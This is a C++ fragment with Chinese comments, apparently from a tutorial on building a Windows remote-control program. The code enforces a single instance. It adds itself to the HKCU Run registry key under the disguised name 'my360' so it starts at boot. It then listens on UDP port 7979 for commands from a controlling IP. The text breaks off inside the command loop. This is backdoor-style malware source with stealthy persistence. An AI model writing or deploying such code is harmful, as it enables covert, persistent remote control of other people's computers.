 ```c++
	// 防止双开 互斥量
	HANDLE hmutex=CreateMutex(0,true,"LF");
	// (默认值，是否上锁，标识)
	if(hmutex!=NULL)// 不为空则创建成功
	{
		if(GetLastError()==ERROR_ALREADY_EXISTS)
		{
			printf("已经打开了\n");
			return 0;
		}
	}

	// 开机自启
	//HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
	//HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
	HKEY key;// HKEY代表打开的注册表首地址
	long reg=RegOpenKeyEx(HKEY_CURRENT_USER,"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run",0,KEY_WRITE,&key);
	if(reg==ERROR_SUCCESS)// 打开成功返回为0
	{
		// 获取路径
		printf("注册表写入成功！\n");
		char path[255]="";
		GetModuleFileName(0,path,254);

		// 增加此运行程序的路径(key,"name",写入0,写入类型)
		// 用RegSetValueEx写在Run目录下
		RegSetValue(key,"my360",REG_SZ,path,strlen(path));
		// 关闭程序
		RegCloseKey(key);
		// Release版本才可以开机自启
	}
	// 1.网络是否存在，初始化网络 调用系统函数
	WSADATA wsaData;
	WSAStartup(0x202,&wsaData);
	// 网络库版本号，最新版本，获取初始化信息

	// 2.购买手机（获取套接字）
	//int sock=socket(AF_INET,SOCK_DGRAM,0);
	// SOCK_DGRAM协议族，UDP协议，默认为0
	// SOCK_STREAM, TCP/IP协议
	sock=socket(AF_INET,SOCK_DGRAM,0);

	// 3.绑定端口号(类似绑定手机卡)
	sockaddr_in addr;// 此电脑的信息（ip,端口号,协议族）
	addr.sin_addr.S_un.S_addr = htonl(INADDR_ANY);
	//inet_addr("192.168.75.1");
	addr.sin_port = htons(7979);// 绑定的端口号
	addr.sin_family=AF_INET;
	bind(sock,(sockaddr*)&addr,sizeof(addr));
	// 4.收到指令，并处理
	char buf[1024]="";// 接收数据1#1等
	char cmd[4]="";// 截取字符串

	// 定义控制方IP地址
	sockaddr_in ctladdr;
	int ilen = sizeof(ctladdr);
	// 创建分身
	CreateThread(0,0,function,0,0,0);

	while(1) //recv(套接字，存储数据区，存储数据长度，默认为0)
	{
		// 收信息recv/recvfrom
```